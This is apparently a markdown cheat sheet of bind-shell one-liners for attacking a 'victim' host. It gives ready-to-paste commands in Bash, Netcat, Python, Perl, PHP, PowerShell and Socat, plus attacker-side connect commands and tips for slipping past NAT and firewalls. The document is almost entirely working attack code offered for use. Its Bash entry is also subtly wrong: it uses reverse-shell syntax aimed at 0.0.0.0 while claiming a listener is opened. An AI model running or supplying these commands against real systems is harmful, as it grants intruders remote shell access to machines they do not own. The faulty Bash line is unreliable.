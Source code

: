 # Quick Bind Shells Cheat Sheet

Bind shells open a listener **on the victim**, waiting for the attacker to connect in.

Assumes:
- TARGET = victim IP (e.g., 10.0.0.5)
- PORT = bind port (e.g., 4444)

---

## 🐚 Bash

```bash
bash -i >& /dev/tcp/0.0.0.0/4444 0>&1
```

(Listener is now on port 4444 of target)

---

## 🦀 Netcat (with `-e`)

### Target (bind shell):
```bash
nc -lvp 4444 -e /bin/bash
```

### Attacker (connect to shell):
```bash
nc 10.0.0.5 4444
```

---

## 🦀 Netcat (no `-e` support)

```bash
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc -lvp 4444 > /tmp/f
```

---

## 🐍 Python

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket();s.bind(("0.0.0.0",4444));s.listen(1);conn,addr=s.accept();[os.dup2(conn.fileno(),fd) for fd in(0,1,2)];subprocess.call(["/bin/bash","-i"])'
```

---

## 🧪 Perl

```bash
perl -e 'use Socket;$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));bind(S,sockaddr_in($p,INADDR_ANY));listen(S,1);accept(C,S);open(STDIN,">&C");open(STDOUT,">&C");open(STDERR,">&C");exec("/bin/sh -i");'
```

---

## 💾 PHP

```php
<?php $sock=socket_create(AF_INET,SOCK_STREAM,SOL_TCP);socket_bind($sock,"0.0.0.0",4444);socket_listen($sock);$client=socket_accept($sock);while(1){socket_write($client,"$ ");$cmd=trim(socket_read($client,1024));$output=shell_exec($cmd);socket_write($client,$output); } ?>
```

---

## 🪟 PowerShell (Bind Shell)

```powershell
$listener = [System.Net.Sockets.TcpListener]4444; $listener.Start(); $client = $listener.AcceptTcpClient(); $stream = $client.GetStream(); [byte[]]$bytes = 0..65535|%{0}; while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String ); $sendback2 = $sendback + "PS " + (pwd).Path + "> "; $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2); $stream.Write($sendbyte,0,$sendbyte.Length); $stream.Flush()}
```

---

## 📦 Socat (Bind Shell)

### Target:
```bash
socat TCP-LISTEN:4444,reuseaddr,fork EXEC:/bin/bash
```

### Attacker:
```bash
socat TCP:10.0.0.5:4444 STDOUT
```

---

## 🧯 Tips

- Use bind shells if you **can’t receive incoming connections** (e.g., NAT/firewalled C2)
- Always `sudo` your bind shells if needed to access <1024 ports
- Pair with reverse shells as fallback

---


